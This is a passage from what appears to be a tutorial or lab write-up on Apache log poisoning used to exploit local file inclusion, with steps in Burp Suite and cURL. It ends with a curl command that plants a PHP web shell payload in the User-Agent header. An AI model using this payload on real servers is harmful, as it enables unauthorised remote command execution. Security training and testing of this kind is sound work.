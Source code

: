 The log contains the `remote IP address`, `request page`, `response code`, and the `User-Agent` header.

### 2.- Intercept the request using Burp Suite

Modify the `User-Agent` header to `Apache Log Poisoning`

![lfi_image6.png](../Images/lfi_image6.png)

### 3.- Poison the `User-Agent` header using a simple web shell

![lfi_image7.png](../Images/lfi_image7.png)

we may also poison the log by sending a request through cURL

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```
